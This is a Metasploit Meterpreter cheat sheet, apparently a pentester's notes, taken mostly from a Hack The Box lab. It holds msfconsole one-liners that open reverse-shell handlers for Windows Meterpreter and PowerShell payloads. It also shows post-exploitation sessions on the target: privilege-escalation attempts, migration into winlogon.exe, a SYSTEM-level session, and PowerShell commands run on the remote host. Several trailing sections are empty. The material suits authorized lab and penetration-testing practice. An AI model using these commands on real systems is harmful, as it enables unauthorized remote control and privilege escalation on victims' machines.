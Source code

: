 # meterpreter

- [Offensive PowerShell with Metasploit Meterpreter](#offensive-powershell-with-metasploit-meterpreter)
- [TL;DR](#tldr)
- [One Liner Start Meterpreter](#one-liner-start-meterpreter)
- [Load the PowerShell Extension](#load-the-powershell-extension)

# [TL;DR](#tldr-1)
```sh
sysinfo
getuid
getsid
getsystem
getpid
migrate <to-new-PID>
ps <string-to-search>
ps -S <string-to-search>
sessions
```

## 
```sh
echo > ~/myip.txt <IP>
zsh
echo $myip
```

# [One Liner Start Meterpreter](#one-liner-start-meterpreter-1)
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
# default LPORT = 4444 
msfconsole -qx "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST tun0;run;"

msfconsole -qx "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST tun0;set LPORT $port;run;"

msfconsole -qx "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT $port;run;"

msfconsole -qx "use exploit/multi/handler;set payload windows/x64/powershell_reverse_tcp;set LHOST tun0; set LPORT $port;run;"
```

## 
```sh
$ msfconsole -qx "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST tun0;run;"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => tun0
[*] Started reverse TCP handler on 10.1.1.1:4444
```

### Syntax
```

```
## Examples 

### sysinfo
```sh
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### getuid
```sh
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >
```

### getsid
```sh
meterpreter > getsid
Server SID: S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550
```

### getsystem
```sh
meterpreter > getsystem 
[-] priv_elevate_getsystem: Operation failed: 1726 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
meterpreter >
```

### getpid
```sh
meterpreter > getpid
Current pid: 1572
meterpreter >
```

### migrate <to-new-PID>
```sh
meterpreter > migrate 432
[*] Migrating from 1572 to 432...
...
[*] Migration completed successfully.
meterpreter > 
```

### getpid
```sh
meterpreter > getpid
Current pid: 432
meterpreter >
```

### ps <string-to-search>
```sh
meterpreter > ps w3
Filtering on 'w3'

Process List
============

 PID   PPID  Name      Arch  Session  User             Path
 ---   ----  ----      ----  -------  ----             ----
 1572  1600  w3wp.exe  x86   0        IIS APPPOOL\Web  c:\windows\system32\inetsrv\w3wp.exe
```

### ps <string-to-search>
```sh
meterpreter > ps win
Filtering on 'win'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 376  304   wininit.exe
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### ps -S <string-to-search>
```sh
meterpreter > ps -S winlogon
Filtering on 'winlogon'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### sessions
```sh
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.52:1234 -> 10.10.10.5:49456 (10.10.10.5)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.16.52:1234 -> 10.10.10.5:49453 (10.10.10.5)
```

# [Offensive PowerShell with Metasploit Meterpreter](https://www.sans.org/blog/offensive-powershell-metasploit-meterpreter/)

## [Load the PowerShell Extension](#load-the-powershell-extension-1)
```sh
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter >
```

## Now we have access to 4 PowerShell-related commands
`powershell_execute`: Execute a PowerShell statement, including complex-statements separated by semicolons
`powershell_import`: Import a local PowerShell script to execute on the remote system over the Meterpreter channel
`powershell_shell`: Launch an interactive PowerShell shell
`powershell_session_remove`: Used to remove a PowerShell session when created using execute/import/shell with the -s argument

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```
